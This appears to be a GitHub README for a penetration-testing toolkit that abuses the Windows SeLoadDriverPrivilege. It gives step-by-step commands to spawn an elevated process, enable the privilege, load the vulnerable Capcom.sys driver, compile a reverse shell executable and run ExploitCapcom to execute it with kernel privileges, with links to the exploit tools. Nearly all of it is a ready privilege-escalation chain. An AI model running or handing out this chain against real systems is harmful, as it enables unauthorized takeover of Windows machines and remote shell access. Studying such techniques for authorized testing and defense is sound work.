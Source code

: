 # SeLoadDriverPriv
Some stuff that can be handy to abuse SeLoadDriverPriv

## Get Priv
In order to get the privilege, we need to spawn a high integrity process
..* Option 1: Load PowerShell or cmd.exe as Administrator (no Administrator group membership required!) - Lesson learned from Wh04m1
..* Option 2: Use elevate.exe to spawn cmd (https://github.com/PaoJiao/elevate)
```
elevate.exe cmd.exe
```

## Enable Privilege
```
. .\Enable-SeLoadDriverPrivilege.ps1
Enable-Privilege SeLoadDriverPrivilege
```

## Compile EoPLoadDriver
```
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\pentest\SeLoadDriverPrivilege\Capcom.sys
```

## Generate Reverse Shell
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:C:\pentest\SeLoadDriverPrivilege\rev.exe C:\pentest\SeLoadDriverPrivilege\rev.cs
```

## Exploit vulnerable driver
```
.\ExploitCapcom.exe C:\pentest\SeLoadDriverPrivilege\rev.exe
```

References

[https://github.com/PaoJiao/elevate](https://github.com/PaoJiao/elevate)

[https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver)

[https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)

[https://github.com/FuzzySecurity/Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)


